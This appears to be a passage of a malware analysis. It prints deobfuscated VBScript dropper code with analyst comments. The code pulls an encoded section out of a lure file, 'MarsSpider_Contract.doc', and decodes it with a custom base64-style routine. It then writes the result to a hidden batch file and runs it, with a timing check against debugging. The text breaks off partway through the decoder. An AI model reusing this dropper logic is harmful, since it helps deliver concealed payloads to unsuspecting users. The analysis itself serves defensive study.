 ```visualbasic
' likely some anti debug technique, so correct value should be func2(movdata)
if datediff("s",movdata_date,date_now) < (30) then
    func2_result = func2(movdata)
else
    func2_result = func2(StrReverse(movdata))
end if

' Open main doc file
' and extract a subsection of 2156 bytes
set fs_object=CreateObject("Scripting.FileSystemObject")
y_marsspider_path="Y:\MarsSpider_Contract.doc"
set y_marsspider_file = fs_object.GetFile(y_marsspider_path)

with y_marsspider_file.OpenAsTextStream()
    y_marsspider_content = .Read(y_marsspider_file.Size)
    .Close
end with
marsspider_subfile = mid(y_marsspider_content,(269217),(2156))

' Decrypt the content
cryptofunc_res = cryptofunc(marsspider_subfile)

' Create a bat file and store the decrypted content
set fs_object=CreateObject("Scripting.FileSystemObject")
y_594f54_bat="Y:\594f54.bat"
set y_marsspider_file = fs_object.CreateTextFile(y_594f54_bat,True)
y_marsspider_file.Write(cryptofunc_res)
y_marsspider_file.Close

' and run this bat file
set y_marsspider_file = fs_object.GetFile(y_594f54_bat)
y_marsspider_file.attributes=(2)

CreateObject("WScript.Shell").Run "%COMSPEC% /c y: && Y:\594f54.bat 594f54.bat"

Function cryptofunc(cryptofunc_param1)
    six_bits_array=Array("000000","000001","000010","000011","000100","000101","000110","000111","001000","001001","001010","001011","001100","001101","001110","001111","010000","010001","010010","010011","010100","010101","010110","010111","011000","011001","011010","011011","011100","011101","011110","011111","100000","100001","100010","100011","100100","100101","100110","100111","101000","101001","101010","101011","101100","101101","101110","101111","110000","110001","110010","110011","110100","110101","110110","110111","111000","111001","111010","111011","111100","111101","111110","111111")
    do until Len(cryptofunc_param1) Mod (3) = (0)
        cryptofunc_param1 = cryptofunc_param1 & Chr(61)
    loop
    cryptofunc_result = ""
    For i = (1) To Len(cryptofunc_param1) - (1) Step (4)
        cryptofunc_param1_4chars = Mid(cryptofunc_param1,i,(4))
        str2 = ""
        For j = (1) To (4)
            if mid(cryptofunc_param1_4chars,j,(1)) = Chr(61) then
                str2 = str2 & "00000000"
            else
                six_bits_index = instr(func2_result, Mid(cryptofunc_param1_4chars,j,(1))) - (1)
                str2 = str2 & six_bits_array(six_bits_index)
            end if
        Next
        str3 = mid(str2,(19),(6)) & mid(str2,(7),(2))
        int1 = (0)
        str4 = mid(str2,(9),(8))
        powerof2=Array(128,64,32,16,8,4,2,1)

```